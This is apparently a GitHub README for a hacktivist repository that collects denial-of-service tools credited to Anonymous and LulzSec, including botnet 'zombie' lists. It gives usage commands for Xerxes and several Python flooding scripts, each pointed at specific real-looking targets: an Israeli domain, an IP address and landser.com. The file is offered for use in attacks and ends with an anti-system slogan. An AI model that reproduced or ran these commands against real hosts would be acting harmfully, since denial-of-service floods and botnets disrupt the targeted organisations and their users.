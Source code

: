 # LulZSeCDdos
This repository brings together the best Ddos Tools created by Anonymous, LulzSeC 
and other Hacktivists, including txt with zombies to use in Botnets

XerXers
gcc xerxes.c -o xerxes

./xerxes www.coñazo.org.il 80

-------------------------------------------------------------------------------------------------------
python2.7  Cannabis.py http://landser.com

python2.7  exploit.py -t 63.141.128.8 -r 1000 -T 1000 -p 443     (service tor start)

python2.7 MH.py  http://landser.com

python2.7  Sadattack.py http://landser.com

python2.7  Saphyra.py http://landser.com 
-----------------------------------------------------------------------------------------------

FOR THE LULZ ,FUCK THE SYSTEM
